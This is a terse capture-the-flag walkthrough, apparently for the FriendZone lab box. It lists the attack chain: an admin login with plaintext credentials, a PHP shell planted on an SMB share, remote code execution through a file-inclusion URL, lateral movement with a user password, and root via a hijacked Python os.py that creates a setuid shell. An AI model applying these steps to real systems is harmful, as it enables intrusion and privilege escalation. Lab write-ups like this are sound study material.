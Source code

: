 * Login in `https://administrator1.friendzone.red/` with FTP credentials `admin:WORKWORKHhallelujah@#`
* Place a php shell in `//10.129.150.159/Development` share
* Get RCE `https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/shell&cmd=id`
* Lateral movement to user friend `friend:Agpyu12!0.213$`
* Python library hijacking over `/usr/lib/python2.7/os.py` adding `system("cp /bin/sh /tmp/sh;chmod u+s /tmp/sh")`